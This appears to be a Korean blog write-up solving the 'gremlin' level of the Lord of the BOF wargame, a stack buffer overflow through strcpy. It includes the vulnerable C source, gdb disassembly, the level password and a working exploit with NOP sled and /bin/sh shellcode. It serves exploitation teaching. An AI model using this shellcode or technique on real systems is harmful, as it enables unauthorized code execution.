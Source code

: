 ```yaml
---
title: "BOF - Lv.1 gate"
excerpt: "Lv.1 gate"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple bof 
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc <2) {
        printf("argc error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n",buffer);
}
```
```
(gdb)
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256] -> 입력받는 곳
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    %esp,8
0x8048482 <main+82>:    leave
0x8048483 <main+83>:    ret
```

## 2. Vulnerability

코드를 보면 strcpy함수를 사용함. strcpy함수는 입력받는 크기값이 정해져있지 않아서 버퍼 오버플로에 취약한 함수임.

## 3. Solution
입력은 ebp-256부터 받음. 대충 값을 줘서 값이 들어가있는 주소들 중 하나를 골라 ex) 0xbffff964 이 주소를 리턴주소로 하고 값으로는 쉘코드 41byte+nop 215byte+sfp 4byte + ret 4byte = 260byte를 값으로 주고 ret는 고른 주소로 해주면 됨.   
한번에 성공하고 싶으면 리턴주소까지 몇바이트의 값이 있는지 확인해보고 하면 더 수월함. 
```
./gremlin `python -c 'print "\x90"*64+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*155+"\x64\xf9\xff\xbf"'` 
``` 
my-pass : hello bof world